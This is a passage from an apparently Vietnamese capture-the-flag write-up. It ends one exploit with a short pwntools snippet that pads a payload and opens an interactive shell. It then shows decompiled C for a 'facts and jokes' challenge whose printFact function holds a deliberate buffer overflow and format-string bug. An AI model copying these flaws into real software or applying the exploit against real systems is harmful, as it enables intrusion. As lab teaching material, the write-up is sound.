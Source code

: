 ```python
payload = payload.ljust(136,b'\x00')
p.sendline(payload)
p.interactive()
```

## mprropot

- chương trình sẽ có 2 option chính  

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h] BYREF

  setup(argc, argv, envp);
  initFacts();
  initJokes();
  puts("### FACTS AND JOKES ###");
  puts("What do you want today?");
  puts("1. Joke\n2. Fact\n3. Exit");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        __isoc99_scanf("%d", &v4);
        getchar();
        if ( v4 != 1 )
          break;
        printJoke();
      }
      if ( v4 != 2 )
        break;
      printFact();
    }
    if ( v4 == 3 )
      break;
    puts("Try again.");
  }
  return 0;
}
```

- printFact: đây là hàm có bug chính của bài , nó sẽ có cả `bof` lẫn `fsb`   

```c
int printFact()
{
  char s[44]; // [rsp+0h] [rbp-30h] BYREF
  int Random; // [rsp+2Ch] [rbp-4h]

  Random = getRandom(0LL, 100LL);
  puts("FACT: ");
  puts(*(const char **)(8LL * Random + FACTS));
  puts("Did you like the fact? Leave a response: ");
  fgets(s, 512, stdin);
  puts("Your Response:");
  printf(s);
  return puts("has been recorded.");
}
```
